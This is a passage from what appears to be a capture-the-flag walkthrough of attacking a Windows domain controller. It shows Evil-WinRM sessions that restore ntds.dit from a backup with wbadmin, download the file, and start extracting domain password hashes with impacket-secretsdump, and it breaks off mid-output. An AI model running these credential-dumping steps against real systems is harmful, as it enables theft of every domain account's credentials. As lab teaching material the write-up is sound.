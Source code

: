 We can now use the backup to recover the file.

```powershell
*Evil-WinRM* PS C:\tmp> wbadmin start recovery -version:10/04/2020-17:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\tmp\ -notrestoreacl -quiet
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Retrieving volume information...
You have chosen to recover the file(s) c:\windows\ntds\ntds.dit from the
backup created on 10/4/2020 10:48 AM to C:\tmp\.
Preparing to recover files...

Running the recovery operation for c:\windows\ntds\ntds.dit, copied (9%).
Currently recovering c:\windows\ntds\ntds.dit.
Running the recovery operation for c:\windows\ntds\ntds.dit, copied (59%).
Currently recovering c:\windows\ntds\ntds.dit.
Successfully recovered c:\windows\ntds\ntds.dit to C:\tmp\.
The recovery operation completed.
Summary of the recovery operation:
--------------------

Recovery of c:\windows\ntds\ntds.dit to C:\tmp\ successfully completed.
Total bytes recovered: 18.00 MB
Total files recovered: 1
Total files failed: 0

Log of files successfully recovered:
C:\Windows\Logs\WindowsServerBackup\FileRestore-04-10-2020_17-56-02.log

*Evil-WinRM* PS C:\tmp> dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/4/2020  10:48 AM       18874368 ntds.dit
```

We can now use evil-winrm to download the file.

```powershell
*Evil-WinRM* PS C:\tmp> download ntds.dit
Info: Downloading C:\tmp\ntds.dit to ntds.dit
```

#### Getting hashes using secretsdump

Now that we have dumped both system.hive and ntds.dit, we can get the hashes of the users using Impacket-Secretsdump.

```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL -hashes L
MHASH:NTHASH -outputfile extracted.txt                                                                                
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation                                
                                                                                                                      
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393                                              
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                              
[*] Searching for pekList, be patient                                                                                 
```